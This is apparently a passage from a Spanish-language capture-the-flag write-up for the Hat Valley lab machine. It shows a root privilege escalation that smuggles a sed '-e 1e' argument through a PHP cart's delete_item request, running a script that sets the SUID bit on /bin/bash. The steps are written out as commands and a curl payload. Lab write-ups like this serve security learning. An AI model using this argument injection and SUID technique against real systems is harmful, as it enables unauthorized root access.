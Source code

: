 ```/POST http://store.hat-valley.htb/cart_actions.php item=1&user=5315-735b-5b5-8ce2&action=delete_item```

Lo que hace el codigo es borrar esa linea donde sale el id de nuestro producto del archivo 5315-735b-5b5-8ce2
Por ejemplo si teniamos el item numero 2 ```sed -i '/item_id=2/d' /var/www/store/cart/5315-735b-5b5-8ce2```
borra la linea donde salga "item_id=2".
¿Pero como podemos abusar de este "sed"? Tiramos de la web [gtfobins](https://gtfobins.github.io/gtfobins/sed/)
La shell es ```sed -n '1e exec sh 1>&0' /etc/hosts``` pero no se puede por los caracteres ">" y "$".

Otra manera alternativa es el parametro -e o --expression que se sirve de un script que ejecutar.
```
# Creamos el script /tmp/shell.sh
bash-5.1$ echo '#!/bin/bash' > /tmp/shell.sh
bash-5.1$ echo 'chmod u+s /bin/bash' >> /tmp/shell.sh

# Sustituimos el archivo de la lista por un modificado con el comando:
# ```(sed) -e "1e /tmp/shell.sh" /tmp/shell.sh``` Cerrando y abriendo las comillas simples.
bash-5.1$ ls cart # 5315-735b-5b5-8ce2
bash-5.1$ rm -rf 5315-735b-5b5-8ce2 
bash-5.1$ echo '***Hat Valley Cart***' > cart/5315-735b-5b5-8ce2
bash-5.1$ echo 'item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90' >> cart/5315-735b-5b5-8ce2
```
Ahora ejecutamos la accion de delete-item para que nuestro codigo se ejecute:
```console
└─$ curl -s -x POST http://store.hat-valley.htb/cart_actions.php -d $'item=1\' -e" 1e /tmp/shell.sh" /tmp/shell.sh \'&user=5315-735b-5b5-8ce2&action=delete_item'
bash-5.1$ ls -la /bin/bash # -rwsr-sr-x 1 root root 1396520 Jan  7  2022 /bin/bash
bash-5.1$ bash -p
bash-5.1# whoami # root
```

